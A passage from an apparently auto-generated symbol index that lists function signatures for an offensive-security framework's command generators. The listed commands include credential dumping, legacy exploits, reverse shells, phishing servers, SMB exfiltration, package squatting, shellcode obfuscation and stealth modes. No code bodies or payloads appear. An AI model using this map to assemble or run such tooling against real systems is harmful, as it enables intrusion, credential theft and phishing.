_gen_load_session(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3426, "name": "_gen_lock_target", "signature": "def _gen_lock_target(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3434, "name": "_gen_login", "signature": "def _gen_login(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3442, "name": "_gen_logout", "signature": "def _gen_logout(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3450, "name": "_gen_lol", "signature": "def _gen_lol(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3458, "name": "_gen_lookupsid", "signature": "def _gen_lookupsid(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3466, "name": "_gen_lookupsid_py", "signature": "def _gen_lookupsid_py(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3474, "name": "_gen_loot", "signature": "def _gen_loot(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3482, "name": "_gen_loxs", "signature": "def _gen_loxs(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3490, "name": "_gen_lynis", "signature": "def _gen_lynis(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3498, "name": "_gen_macos_keychain", "signature": "def _gen_macos_keychain(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3506, "name": "_gen_macos_persist", "signature": "def _gen_macos_persist(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3514, "name": "_gen_macos_tcc", "signature": "def _gen_macos_tcc(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3522, "name": "_gen_magicrecon", "signature": "def _gen_magicrecon(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3530, "name": "_gen_makerc", "signature": "def _gen_makerc(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3538, "name": "_gen_malwarebazar", "signature": "def _gen_malwarebazar(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3546, "name": "_gen_marketplace", "signature": "def _gen_marketplace(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3554, "name": "_gen_marketplace_config", "signature": "def _gen_marketplace_config(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3562, "name": "_gen_medusa", "signature": "def _gen_medusa(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3570, "name": "_gen_metabigor", "signature": "def _gen_metabigor(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3578, "name": "_gen_mfa_bypass", "signature": "def _gen_mfa_bypass(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3586, "name": "_gen_mimikatzpy", "signature": "def _gen_mimikatzpy(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3594, "name": "_gen_mitre_test", "signature": "def _gen_mitre_test(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3602, "name": "_gen_mkrc", "signature": "def _gen_mkrc(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3610, "name": "_gen_morse", "signature": "def _gen_morse(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3618, "name": "_gen_mqtt_check_py", "signature": "def _gen_mqtt_check_py(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3626, "name": "_gen_ms08_067_netapi", "signature": "def _gen_ms08_067_netapi(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3634, "name": "_gen_msf", "signature": "def _gen_msf(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3642, "name": "_gen_msfpc", "signature": "def _gen_msfpc(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3650, "name": "_gen_msfrpc", "signature": "def _gen_msfrpc(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3658, "name": "_gen_msfshellcoder", "signature": "def _gen_msfshellcoder(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3666, "name": "_gen_mssqlcli", "signature": "def _gen_mssqlcli(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3674, "name": "_gen_mutate_shellcode", "signature": "def _gen_mutate_shellcode(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3682, "name": "_gen_my_playbook", "signature": "def _gen_my_playbook(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3690, "name": "_gen_name_the_hash", "signature": "def _gen_name_the_hash(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3698, "name": "_gen_nano", "signature": "def _gen_nano(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3706, "name": "_gen_nbtscan", "signature": "def _gen_nbtscan(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3714, "name": "_gen_nc", "signature": "def _gen_nc(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3722, "name": "_gen_neighbors", "signature": "def _gen_neighbors(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3730, "name": "_gen_net_rpc_addmem", "signature": "def _gen_net_rpc_addmem(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3738, "name": "_gen_netexec", "signature": "def _gen_netexec(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3746, "name": "_gen_netview", "signature": "def _gen_netview(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3754, "name": "_gen_news", "signature": "def _gen_news(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3762, "name": "_gen_next", "signature": "def _gen_next(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3770, "name": "_gen_ngrok", "signature": "def _gen_ngrok(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3778, "name": "_gen_nikto", "signature": "def _gen_nikto(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3786, "name": "_gen_nmapscript", "signature": "def _gen_nmapscript(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3794, "name": "_gen_nmapscripthelp", "signature": "def _gen_nmapscripthelp(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3802, "name": "_gen_note", "signature": "def _gen_note(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3810, "name": "_gen_notify", "signature": "def _gen_notify(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3818, "name": "_gen_ntpdate", "signature": "def _gen_ntpdate(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3826, "name": "_gen_nuclei", "signature": "def _gen_nuclei(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3834, "name": "_gen_odat", "signature": "def _gen_odat(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3842, "name": "_gen_ofuscate_string", "signature": "def _gen_ofuscate_string(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3850, "name": "_gen_ofuscatesh", "signature": "def _gen_ofuscatesh(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3858, "name": "_gen_ofuscatorps1", "signature": "def _gen_ofuscatorps1(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3866, "name": "_gen_op_create", "signature": "def _gen_op_create(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3874, "name": "_gen_op_list", "signature": "def _gen_op_list(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3882, "name": "_gen_op_pause", "signature": "def _gen_op_pause(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3890, "name": "_gen_op_plan", "signature": "def _gen_op_plan(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3898, "name": "_gen_op_report", "signature": "def _gen_op_report(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3906, "name": "_gen_op_resume", "signature": "def _gen_op_resume(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3914, "name": "_gen_op_start", "signature": "def _gen_op_start(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3922, "name": "_gen_op_status", "signature": "def _gen_op_status(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3930, "name": "_gen_op_stop", "signature": "def _gen_op_stop(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3938, "name": "_gen_op_timeline", "signature": "def _gen_op_timeline(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3946, "name": "_gen_openredirex", "signature": "def _gen_openredirex(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3954, "name": "_gen_openssl_sclient", "signature": "def _gen_openssl_sclient(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3962, "name": "_gen_operator_create", "signature": "def _gen_operator_create(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3970, "name": "_gen_operator_delete", "signature": "def _gen_operator_delete(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3978, "name": "_gen_operator_load", "signature": "def _gen_operator_load(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3986, "name": "_gen_operators", "signature": "def _gen_operators(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 3994, "name": "_gen_opsec", "signature": "def _gen_opsec(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4002, "name": "_gen_orchestrate", "signature": "def _gen_orchestrate(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4010, "name": "_gen_osmedeus", "signature": "def _gen_osmedeus(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4018, "name": "_gen_owneredit", "signature": "def _gen_owneredit(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4026, "name": "_gen_package_squat", "signature": "def _gen_package_squat(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4034, "name": "_gen_padbuster", "signature": "def _gen_padbuster(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4042, "name": "_gen_palette_k", "signature": "def _gen_palette_k(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4050, "name": "_gen_paranoid_meterpreter", "signature": "def _gen_paranoid_meterpreter(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4058, "name": "_gen_parsero", "signature": "def _gen_parsero(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4066, "name": "_gen_parth", "signature": "def _gen_parth(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4074, "name": "_gen_passtightvnc", "signature": "def _gen_passtightvnc(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4082, "name": "_gen_passwordspray", "signature": "def _gen_passwordspray(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4090, "name": "_gen_path2hex", "signature": "def _gen_path2hex(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4098, "name": "_gen_payload", "signature": "def _gen_payload(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4106, "name": "_gen_penelope", "signature": "def _gen_penelope(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4114, "name": "_gen_pentest_report", "signature": "def _gen_pentest_report(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4122, "name": "_gen_pezorsh", "signature": "def _gen_pezorsh(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4130, "name": "_gen_phase", "signature": "def _gen_phase(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4138, "name": "_gen_phish_report", "signature": "def _gen_phish_report(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4146, "name": "_gen_phish_serve", "signature": "def _gen_phish_serve(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4154, "name": "_gen_phish_wizard", "signature": "def _gen_phish_wizard(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4162, "name": "_gen_ping", "signature": "def _gen_ping(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4170, "name": "_gen_pip_proxy", "signature": "def _gen_pip_proxy(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4178, "name": "_gen_pip_repo", "signature": "def _gen_pip_repo(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4186, "name": "_gen_pipeline", "signature": "def _gen_pipeline(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4194, "name": "_gen_pivot", "signature": "def _gen_pivot(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4202, "name": "_gen_pivot_kill", "signature": "def _gen_pivot_kill(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4210, "name": "_gen_pivot_proxy", "signature": "def _gen_pivot_proxy(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4218, "name": "_gen_pivot_scan", "signature": "def _gen_pivot_scan(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4226, "name": "_gen_plan", "signature": "def _gen_plan(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4234, "name": "_gen_plan_apply", "signature": "def _gen_plan_apply(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4242, "name": "_gen_plan_detail", "signature": "def _gen_plan_detail(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4250, "name": "_gen_pop", "signature": "def _gen_pop(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4258, "name": "_gen_portdiscover", "signature": "def _gen_portdiscover(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4266, "name": "_gen_ports", "signature": "def _gen_ports(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4274, "name": "_gen_portservicediscover", "signature": "def _gen_portservicediscover(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4282, "name": "_gen_powerserver", "signature": "def _gen_powerserver(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4290, "name": "_gen_powershell_cmd_stager", "signature": "def _gen_powershell_cmd_stager(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4298, "name": "_gen_pre2k", "signature": "def _gen_pre2k(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4306, "name": "_gen_prev", "signature": "def _gen_prev(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4314, "name": "_gen_printerbug_py", "signature": "def _gen_printerbug_py(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4322, "name": "_gen_privesc_suggest", "signature": "def _gen_privesc_suggest(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4330, "name": "_gen_process_scans", "signature": "def _gen_process_scans(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4338, "name": "_gen_proxy", "signature": "def _gen_proxy(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4346, "name": "_gen_psexec", "signature": "def _gen_psexec(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4354, "name": "_gen_psexec_py", "signature": "def _gen_psexec_py(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4362, "name": "_gen_pspy", "signature": "def _gen_pspy(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4370, "name": "_gen_pth_net", "signature": "def _gen_pth_net(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4378, "name": "_gen_pup", "signature": "def _gen_pup(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4386, "name": "_gen_pwd", "signature": "def _gen_pwd(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4394, "name": "_gen_pwncat", "signature": "def _gen_pwncat(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4402, "name": "_gen_pwncatcs", "signature": "def _gen_pwncatcs(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4410, "name": "_gen_py3ttyup", "signature": "def _gen_py3ttyup(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4418, "name": "_gen_pyautomate", "signature": "def _gen_pyautomate(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4426, "name": "_gen_pykerbrute", "signature": "def _gen_pykerbrute(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4434, "name": "_gen_pyoracle2", "signature": "def _gen_pyoracle2(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4442, "name": "_gen_pywhisker", "signature": "def _gen_pywhisker(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4450, "name": "_gen_qa", "signature": "def _gen_qa(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4458, "name": "_gen_rdp", "signature": "def _gen_rdp(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4466, "name": "_gen_rdp_check_py", "signature": "def _gen_rdp_check_py(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4474, "name": "_gen_recon", "signature": "def _gen_recon(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4482, "name": "_gen_refill_password", "signature": "def _gen_refill_password(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4490, "name": "_gen_reg_py", "signature": "def _gen_reg_py(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4498, "name": "_gen_regeorg", "signature": "def _gen_regeorg(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4506, "name": "_gen_rejetto_hfs_exec", "signature": "def _gen_rejetto_hfs_exec(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4514, "name": "_gen_reload_addons", "signature": "def _gen_reload_addons(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4522, "name": "_gen_report", "signature": "def _gen_report(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4530, "name": "_gen_resource", "signature": "def _gen_resource(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4538, "name": "_gen_responder", "signature": "def _gen_responder(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4546, "name": "_gen_rev", "signature": "def _gen_rev(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4554, "name": "_gen_revwin", "signature": "def _gen_revwin(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4562, "name": "_gen_rhost", "signature": "def _gen_rhost(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4570, "name": "_gen_rich_tui", "signature": "def _gen_rich_tui(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4578, "name": "_gen_rmfromfind", "signature": "def _gen_rmfromfind(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4586, "name": "_gen_rnc", "signature": "def _gen_rnc(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4594, "name": "_gen_rocky", "signature": "def _gen_rocky(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4602, "name": "_gen_rot", "signature": "def _gen_rot(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4610, "name": "_gen_rotate_aes", "signature": "def _gen_rotate_aes(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4618, "name": "_gen_rotf", "signature": "def _gen_rotf(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4626, "name": "_gen_route", "signature": "def _gen_route(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4634, "name": "_gen_rpcclient", "signature": "def _gen_rpcclient(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4642, "name": "_gen_rpcdump", "signature": "def _gen_rpcdump(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4650, "name": "_gen_rpcmap_py", "signature": "def _gen_rpcmap_py(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4658, "name": "_gen_rrhost", "signature": "def _gen_rrhost(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4666, "name": "_gen_rsync", "signature": "def _gen_rsync(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4674, "name": "_gen_rubeus", "signature": "def _gen_rubeus(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4682, "name": "_gen_run", "signature": "def _gen_run(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4690, "name": "_gen_samdump2", "signature": "def _gen_samdump2(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4698, "name": "_gen_samrdump", "signature": "def _gen_samrdump(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4706, "name": "_gen_sandbox", "signature": "def _gen_sandbox(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4714, "name": "_gen_sawks", "signature": "def _gen_sawks(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4722, "name": "_gen_scans", "signature": "def _gen_scans(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4730, "name": "_gen_scarecrow", "signature": "def _gen_scarecrow(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4738, "name": "_gen_scavenger", "signature": "def _gen_scavenger(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4746, "name": "_gen_scope", "signature": "def _gen_scope(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4754, "name": "_gen_scp", "signature": "def _gen_scp(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4762, "name": "_gen_seal_credentials", "signature": "def _gen_seal_credentials(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4770, "name": "_gen_search", "signature": "def _gen_search(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4778, "name": "_gen_searchhash", "signature": "def _gen_searchhash(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4786, "name": "_gen_secretsdump", "signature": "def _gen_secretsdump(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4794, "name": "_gen_seo", "signature": "def _gen_seo(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4802, "name": "_gen_serveralive2", "signature": "def _gen_serveralive2(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4810, "name": "_gen_service", "signature": "def _gen_service(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4818, "name": "_gen_service_ssh", "signature": "def _gen_service_ssh(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4826, "name": "_gen_sessionssh", "signature": "def _gen_sessionssh(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4834, "name": "_gen_sessionsshstrace", "signature": "def _gen_sessionsshstrace(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4842, "name": "_gen_set", "signature": "def _gen_set(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4850, "name": "_gen_set_proxychains", "signature": "def _gen_set_proxychains(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4858, "name": "_gen_setoolKits", "signature": "def _gen_setoolKits(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4866, "name": "_gen_sh", "signature": "def _gen_sh(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4874, "name": "_gen_shadowsocks", "signature": "def _gen_shadowsocks(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4882, "name": "_gen_share_finding", "signature": "def _gen_share_finding(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4890, "name": "_gen_sharpshooter", "signature": "def _gen_sharpshooter(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4898, "name": "_gen_shellcode", "signature": "def _gen_shellcode(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4906, "name": "_gen_shellcode2elf", "signature": "def _gen_shellcode2elf(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4914, "name": "_gen_shellcode2sylk", "signature": "def _gen_shellcode2sylk(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4922, "name": "_gen_shellcode_search", "signature": "def _gen_shellcode_search(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4930, "name": "_gen_shellfire", "signature": "def _gen_shellfire(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4938, "name": "_gen_shellshock", "signature": "def _gen_shellshock(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4946, "name": "_gen_sherlock", "signature": "def _gen_sherlock(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4954, "name": "_gen_show", "signature": "def _gen_show(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4962, "name": "_gen_shred", "signature": "def _gen_shred(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4970, "name": "_gen_sireprat", "signature": "def _gen_sireprat(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4978, "name": "_gen_sitrep", "signature": "def _gen_sitrep(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4986, "name": "_gen_skipfish", "signature": "def _gen_skipfish(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 4994, "name": "_gen_sliver_server", "signature": "def _gen_sliver_server(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5002, "name": "_gen_smalldic", "signature": "def _gen_smalldic(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5010, "name": "_gen_smb_exfil", "signature": "def _gen_smb_exfil(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5018, "name": "_gen_smbattack", "signature": "def _gen_smbattack(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5026, "name": "_gen_smbclient", "signature": "def _gen_smbclient(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5034, "name": "_gen_smbclient_impacket", "signature": "def _gen_smbclient_impacket(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5042, "name": "_gen_smbclient_py", "signature": "def _gen_smbclient_py(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5050, "name": "_gen_smbmap", "signature": "def _gen_smbmap(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5058, "name": "_gen_smbserver", "signature": "def _gen_smbserver(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5066, "name": "_gen_smtpuserenum", "signature": "def _gen_smtpuserenum(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5074, "name": "_gen_snmpcheck", "signature": "def _gen_snmpcheck(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5082, "name": "_gen_snmpwalk", "signature": "def _gen_snmpwalk(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5090, "name": "_gen_socat", "signature": "def _gen_socat(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5098, "name": "_gen_spool", "signature": "def _gen_spool(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5106, "name": "_gen_spraykatz", "signature": "def _gen_spraykatz(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5114, "name": "_gen_sqli", "signature": "def _gen_sqli(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5122, "name": "_gen_sqli_mssql_test", "signature": "def _gen_sqli_mssql_test(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5130, "name": "_gen_sqlmap", "signature": "def _gen_sqlmap(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5138, "name": "_gen_sqsh", "signature": "def _gen_sqsh(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5146, "name": "_gen_ss", "signature": "def _gen_ss(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5154, "name": "_gen_ssh", "signature": "def _gen_ssh(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5162, "name": "_gen_ssh_cmd", "signature": "def _gen_ssh_cmd(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5170, "name": "_gen_sshd", "signature": "def _gen_sshd(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5178, "name": "_gen_sshexploit", "signature": "def _gen_sshexploit(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5186, "name": "_gen_sshkey", "signature": "def _gen_sshkey(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5194, "name": "_gen_sslscan", "signature": "def _gen_sslscan(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5202, "name": "_gen_stage", "signature": "def _gen_stage(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5210, "name": "_gen_state_snapshot", "signature": "def _gen_state_snapshot(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5218, "name": "_gen_status_bar", "signature": "def _gen_status_bar(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5226, "name": "_gen_status_tail", "signature": "def _gen_status_tail(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5234, "name": "_gen_stealth_off", "signature": "def _gen_stealth_off(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5242, "name": "_gen_stealth_on", "signature": "def _gen_stealth_on(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5250, "name": "_gen_stormbreaker", "signature": "def _gen_stormbreaker(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5258, "name": "_gen_sudo", "signature": "def _gen_sudo(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5266, "name": "_gen_suggest_next", "signature": "def _gen_suggest_next(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5274, "name": "_gen_suid_check", "signature": "def _gen_suid_check(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5282, "name": "_gen_surface", "signature": "def _gen_surface(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5290, "name": "_gen_swaks", "signature": "def _gen_swaks(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5298, "name": "_gen_sys", "signature": "def _gen_sys(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5306, "name": "_gen_tab", "signature": "def _gen_tab(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5314, "name": "_gen_targetedKerberoas", "signature": "def _gen_targetedKerberoas(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5322, "name": "_gen_tasks", "signature": "def _gen_tasks(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5330, "name": "_gen_tcpdump_capture", "signature": "def _gen_tcpdump_capture(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5338, "name": "_gen_tcpdump_icmp", "signature": "def _gen_tcpdump_icmp(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5346, "name": "_gen_team_chat", "signature": "def _gen_team_chat(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5354, "name": "_gen_team_status", "signature": "def _gen_team_status(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5362, "name": "_gen_template_helper_serializer", "signature": "def _gen_template_helper_serializer(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5372, "name": "_gen_tenant", "signature": "def _gen_tenant(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5380, "name": "_gen_tgrep", "signature": "def _gen_tgrep(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5388, "name": "_gen_ticketer", "signature": "def _gen_ticketer(arguments, tool_name, _cmd)"}, {"kind": "function", "line": 5396, "name": "_gen_timeline_browser", "signature": "def _gen_timeline_browser(arguments, tool_name, 